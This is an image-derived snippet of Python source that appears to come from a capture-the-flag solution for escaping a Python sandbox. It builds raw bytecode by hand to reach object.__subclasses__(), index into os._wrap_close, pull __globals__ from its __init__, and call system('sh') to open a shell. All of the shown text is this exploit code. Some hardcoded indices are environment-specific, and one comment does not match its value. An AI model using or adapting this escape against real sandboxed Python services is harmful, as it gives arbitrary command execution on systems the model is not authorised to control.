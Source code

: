 ```python
    code += binary_subscr()
    code += load_var(1)
    code += gen_string(str_helper1, '__base__')
    code += call_function(2)

    # object.__subclassess__()
    code += save_var(1)
    code += load_var(1)
    code += get_dict()
    code += gen_string(str_helper1, '__getattribute__')
    code += binary_subscr()
    code += load_var(1)
    code += gen_string(str_helper1, '__subclasses__')
    code += call_function(2)
    code += call_function(0)

    # save subclasses
    code += save_var(0)

    """
    # exception
    code += bytes([opmap["BUILD_MAP"], 0])
    code += load_var(0)
    code += bytes([opmap["FORMAT_VALUE"], 1])
    code += binary_subscr()
    """

    # <class 'os._wrap_close'>
    code += load_var(0)
    code += gen_int(133) # 133
    code += binary_subscr()

    # _wrap_close.__init__
    code += save_var(1)
    code += load_var(1)
    code += get_class()
    code += get_dict()
    code += gen_string(str_helper1, '__getattribute__')
    code += binary_subscr()
    code += load_var(1)
    code += gen_string(str_helper1, '__init__')
    code += call_function(2)

    # __globals__
    code += save_var(1) # save init
    code += load_var(0) # load attrgetter
    code += gen_int(148) # 168
    code += binary_subscr() # attrgetter
    code += load_var(1) # load init
    code += gen_string(str_helper2, '__globals__')
    code += call_function(1)
    code += load_var(1) # load init
    code += call_function(1)

    # globals["system"]("sh")
    code += save_var(1)
    code += load_var(1)
    code += load_var(1)
    code += gen_string(str_helper3, "system")
    code += binary_subscr()
    code += gen_string(str_helper4, "sh")
    code += call_function(1)

```